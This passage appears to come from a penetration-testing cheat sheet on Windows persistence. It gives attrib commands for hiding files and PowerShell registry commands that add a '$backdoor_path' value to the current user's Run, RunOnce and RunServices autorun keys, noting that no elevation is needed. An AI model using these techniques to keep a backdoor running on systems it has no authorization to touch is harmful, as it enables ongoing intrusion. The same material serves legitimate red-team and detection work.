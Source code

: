 {% tab title="cmd.exe" %}
Set a file as **Hidden** (`-h`).  This can also be used to change other file property flags such as (`a`) Archive and (`r`) ReadOnly. Flags must be added separately (`-h -a -r` not `-har`).

```
attrib <C:\path\filename> #show the file attributes

attrib +h <C:\path\filename>

#to remove the hidden property
attrib -h <C:\path\filename>
```
{% endtab %}
{% endtabs %}

### Registry - HKCU&#x20;

#### Autoruns

The following registry keys can be used to create persistence by auto-running your backdoor.  Keys in HKCU do not require elevation to modify.

```
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]
```

{% tabs %}
{% tab title="PowerShell" %}
Create key values in the Autoruns keys in `HKCU:\Software\Microsoft\Windows\CurrentVersion`.&#x20;

**Run** and **RunOnce** keys are run each time a new user logs in.&#x20;

**RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```powershell
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -PropertyType String -Name $key_name -Value "$backdoor_path"
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce -PropertyType String -Name $key_name -Value "$backdoor_path"
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\RunServices -PropertyType String -Name $key_name -Value "$backdoor_path"
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce -PropertyType String -Name $key_name -Value "$backdoor_path"
```
{% endtab %}

{% tab title="cmd.exe" %}
Create values in the Autoruns keys in `HKCU\Software\Microsoft\Windows\CurrentVersion`. The option `/v` is the name you want, and `/d` is the path to your backdoor. &#x20;

**Run** and **RunOnce** keys are run each time a new user logs in.&#x20;
